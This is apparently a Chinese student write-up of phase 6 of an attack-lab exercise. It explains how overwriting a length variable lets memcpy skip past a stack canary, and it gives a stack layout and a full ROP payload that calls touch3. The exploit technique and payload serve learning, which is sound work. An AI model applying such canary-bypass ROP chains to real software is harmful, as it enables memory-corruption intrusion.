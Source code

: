 我们需要构造一个输入，使得 `getbuf_withcanary` 函数返回后，调用 `touch3` 函数。但由于栈随机化，我们需要利用 ROP 技术，通过一系列的 gadgets 来实现对 `touch3` 函数的调用。

可以看到，`getbuf_withcanary` 函数中有两个缓冲区 `buf` 和 `logMsg`，并且 `memcpy` 函数会将 `buf` 中一定长度的内容复制到 `logMsg` 中。由于栈溢出保护，我们无法直接通过 `buf` 覆盖返回地址，那样会修改金丝雀值，那有没有可以绕过金丝雀值，直接覆写返回地址的方法呢？有的，兄弟，有的。我们可以利用 `memcpy` 函数配合 `len` 作为偏移量越过金丝雀值来实现 ROP 攻击。

首先，我们需要知道 `getbuf_withcanary` 函数的栈空间结构，通过阅读汇编代码或调试可以得到如下栈布局：

```text
单位：字节
+-------------------+
|   return addr[8]  |
+-------------------+
|      %rbp[8]      |
+-------------------+
|     canary[8]     |
+-------------------+
|       [16]        |
+-------------------+
|  len[4]  |        |
+-------------------+
|     buf[128]      |
+-------------------+
|    logMsg[128]    |
+-------------------+
```

我们发现 `len` 变量位于 `buf` 之后，因此我们可以通过 `buf` 来覆写 `len` 的值，从而控制 `memcpy` 函数的复制字符串的目的地址，进而实现 ROP 攻击。需要注意，`memcpy` 函数只复制 128 字节，这意味着我们的 ROP 链不能过长。

接下来，我们只需要计算好偏移量，然后照搬 phase 5 的 ROP 链即可。注意 phase 6 中的 `touch3` 和对应 `gadget` 地址与 phase 5 不同。

```text
/* phase6.txt */
eb 1e 40 00 00 00 00 00 /* Gadget 1 */
83 1e 40 00 00 00 00 00 /* Gadget 2 */
a3 1e 40 00 00 00 00 00 /* Gadget 3 */
48 00 00 00 00 00 00 00 /* Bias value 72 */
8a 1f 40 00 00 00 00 00 /* Gadget 4 */
95 1f 40 00 00 00 00 00 /* Gadget 5 */
00 1f 40 00 00 00 00 00 /* Gadget 6 */
d6 1e 40 00 00 00 00 00 /* Gadget 7 */
83 1e 40 00 00 00 00 00 /* Gadget 8 */
22 1d 40 00 00 00 00 00 /* Address of touch3 function */
32 34 63 38 63 65 36 36 /* cookie string "24c8ce66" */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00
28 01 00 00 /* len value 296 */
```

